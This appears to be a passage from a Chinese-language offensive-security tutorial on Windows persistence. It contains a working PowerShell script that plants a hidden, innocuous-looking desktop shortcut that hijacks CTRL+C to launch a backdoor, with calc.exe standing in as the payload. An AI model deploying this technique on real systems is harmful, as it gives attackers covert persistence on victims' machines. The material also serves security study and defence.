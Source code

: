 
由于我们桌面快捷方式中的CTRL+C快捷键优先于Windows原本的CTRL+C，所以可以将快捷方式的快捷键设置为常用的windows快捷键来破坏原有的快捷键，并且把目标位置设置为后门位置，这样在使用快捷键的时候就会调用对应的后门程序

但是资源管理器只允许以 CTRL+ALT 组合开头的快捷方式。其他组合需要通过 COM 以编程方式设置。

以下 PowerShell 脚本可用于创建带有自定义激活密钥的恶意快捷方式：

```js
$path                      = "$([Environment]::GetFolderPath('Desktop'))\FakeText.lnk"
$wshell                    = New-Object -ComObject Wscript.Shell
$shortcut                  = $wshell.CreateShortcut($path)
$shortcut.IconLocation     = "C:\Windows\System32\shell32.dll,70"
$shortcut.TargetPath       = "cmd.exe"
$shortcut.Arguments        = "/c calc.exe"
$shortcut.WorkingDirectory = "C:"
$shortcut.HotKey           = "CTRL+C"
$shortcut.Description      = "Nope, not malicious"
$shortcut.WindowStyle      = 7
                           # 7 = Minimized window
                           # 3 = Maximized window
                           # 1 = Normal    window
$shortcut.Save()
(Get-Item $path).Attributes += 'Hidden' # 
```

如果我们想让快捷方式不可见可以这样设置

在第 1 行，我们声明了一个指向受害者桌面目录的变量path。之后，我们开始慢慢修改我们的快捷方式以满足我们的需求。首先给它一个信任度高的图标，将它设置为执行恶意代码（用来演示的calc.exe）并将窗口样式设置为最小化，以便在执行快捷方式后不弹出命令提示符。此外，我们还可以通过设置Hidden属性使快捷方式在桌面隐藏。

![image-20240410103654450](images/24.png)
